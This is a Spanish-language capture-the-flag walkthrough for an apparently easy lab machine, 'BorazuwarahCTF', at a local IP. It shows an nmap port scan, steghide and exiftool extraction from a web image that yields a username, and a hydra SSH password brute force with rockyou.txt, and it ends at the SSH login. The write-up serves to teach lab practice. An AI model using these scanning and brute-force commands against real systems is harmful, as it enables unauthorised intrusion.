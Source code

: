 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](Pasted%20image%2020240917192325.png)


Nos vamos a la página web y nos sale :

![Img](Pasted%20image%2020240917193213.png)

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](Pasted%20image%2020240917193813.png)


```
cat secreto.txt
```

![Img](Pasted%20image%2020240917193842.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```
![Img](Pasted%20image%2020240917194039.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Img](Pasted%20image%2020240917194231.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](Pasted%20image%2020240917194342.png)


Y ya estamos adentro. 
